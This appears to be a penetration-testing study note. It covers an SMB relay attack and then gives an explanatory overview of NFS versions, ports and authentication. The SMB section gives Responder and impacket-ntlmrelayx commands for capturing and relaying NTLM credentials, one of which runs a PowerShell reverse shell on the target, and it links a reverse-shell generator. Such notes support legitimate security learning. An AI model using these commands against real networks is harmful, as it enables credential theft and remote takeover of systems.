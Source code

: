### SMB relay attack
The target must not enforce or enable SMB signing.


- run responder
```
 responder -I <interface name>
```
- will capture credintials and pass it using techniques like `PtH` to another systems 
- [revshells](https://www.revshells.com/)
```shell
#  we need to set SMB to OFF in our responder configuration file (/etc/responder/Responder.conf).
cat /etc/responder/Responder.conf | grep 'SMB ='

# -t is the taregt we rely this to
impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <poweshell base64 reverse shell>'

```


# NFS
- Network File System (NFS) is a network file system developed by Sun Microsystems and has the same purpose as SMB. 
- NFS is used between Linux and Unix systems. This means that NFS clients cannot communicate directly with SMB servers.

## Service info

| Version | Features                                                                                                                                             |
|---------|-----------------------------------------------------------------------------------------------------------------------------------------------------|
| NFSv2   | It is older but is supported by many systems and was initially operated entirely over UDP.                                                          |
| NFSv3   | It has more features, including variable file size and better error reporting, but is not fully compatible with NFSv2 clients.                      |
| NFSv4   | It includes Kerberos, works through firewalls and on the Internet, no longer requires portmappers, supports ACLs, applies state-based operations, and provides performance improvements and high security. It is also the first version to have a stateful protocol. |


### port used  
- Port 2049 TCP or UDP: NFS 
- Port 111 TCP or UDP : for SUN Remote Procedure Call (RPC Portmapper) which is used as portmapper and **nfs rely on it for auth**

### Auth in NFC 
- NFS itself has no built-in authentication or authorization mechanisms, Authentication is delegated to the RPC protocol's options.
#### Default NFS Authentication: UNIX UID/GID via RPC
- The server, using RPC, translates the client's UID/GID into its local file system's format to enforce access permissions based on file system rules.
#### NFS Authentication: Kerberos via RPC
- RPCSEC_GSS in NFSv4 enables Kerberos authentication, allowing the client and server to mutually authenticate each other before any file access is granted.
